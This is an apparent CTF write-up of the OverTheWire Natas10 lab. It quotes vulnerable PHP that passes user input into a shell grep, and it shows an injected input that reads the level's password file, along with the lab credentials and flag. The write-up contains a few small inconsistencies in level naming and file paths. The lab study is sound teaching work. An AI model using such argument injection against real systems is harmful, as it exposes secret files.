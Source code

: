 # CTF Writeup - **OverTheWire Natas9 - Natas10**

**Author**: spiketyson 

---

## Challenge Details

- **Challenge Name:** Natas9 - Natas10
- **Category:** Linux
- **Difficulty Level:** Easy
- **Date:** 3-12-2024

---

## Summary

This challenge is the introductory level for the Natas series on OverTheWire, focusing on web exploitation. The goal is to find the flag that is hidden web server using burpsuite if possible.

---

## Approach

Since this is an basic challenge, I planned to use inspect element to troubleshoot and find the flag.

---

## Solution Walkthrough

Connecting to the web server using:

```bash
Username: natas10
Password: t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
URL:      http://natas10.natas.labs.overthewire.org
```

After logging in, we can see that the webpage asks for Input word.  But we dont know anything about it, So lets input some random value and check it out. 

```bash
For security reasons, we now filter on certain characters
Find words containing: a
# Submit
# African
# Africans
# Allah
# Allah's
# American
# Americanism
# Americanism's
# Americanisms
```

It shows us all the words that have `a` in it. Since, we dont know how it works and how to get the password. Lets view the source code of the it.

```bash
# <html>
# <head>
# <!-- This stuff in the header has nothing to do with the level -->
# <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
# <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
# <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
# <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
# <script>var wechallinfo = { "level": "natas10", "pass": "<censored>" };</script></head>
# <body>
# <h1>natas10</h1>
# <div id="content">
# For security reasons, we now filter on certain characters<br/><br/>
# <form>
# Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
# </form>
# Output:
# <pre>
# <?
# $key = "";
# if(array_key_exists("needle", $_REQUEST)) {
#     $key = $_REQUEST["needle"];
# }
# if($key != "") {
#     if(preg_match('/[;|&]/',$key)) {
#         print "Input contains an illegal character!";
#     } else {
#         passthru("grep -i $key dictionary.txt");
#     }
# }
# ?>
# </pre>
# <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
# </div>
# </body>
# </html>
```

We can see that there is a form which takes our input, and when we submit the input there is a php code which gets executed on the input, Where the code takes our input which is tagged with `needle` in the html and is copied to the `key` variable. Then it check if the key is not NULL value, and then again check if it has special characters. if not then it does a grep of the keyword that we have given on a text file. This is interesting for us because we know that the password is in `/etc/natas_webpass/natas11` we can input use grep to work for use instead. 
 
```bash
a /etc/natas_webpass/natas11
# /etc/natas_webpass/natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk
# dictionary.txt:African
# dictionary.txt:Africans
# dictionary.txt:Allah
```

So what we did here is that we know that we want to get the password form `/etc/natas_webpass/natas10` but based on the condition that we are not allowed to use special characters. What we did here is that we inputed `a /etc/natas_webpass/natas11` so what technically happens is that this is replaced in the `grep` command before execution. The command becomes `grep -i a /etc/natas_webpass/natas11 dictionary.txt`. This command finds all the words that contain a irrespective of its case in both the `natas11` password file as well as dictionary files. This will give us the password. If `a` is not working, then we can try with some other character.


## Flag

**Flag:** UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk

---

## Lessons Learned

It was a good challenge where i learned about how i can give proper inputs to exploit bugs.
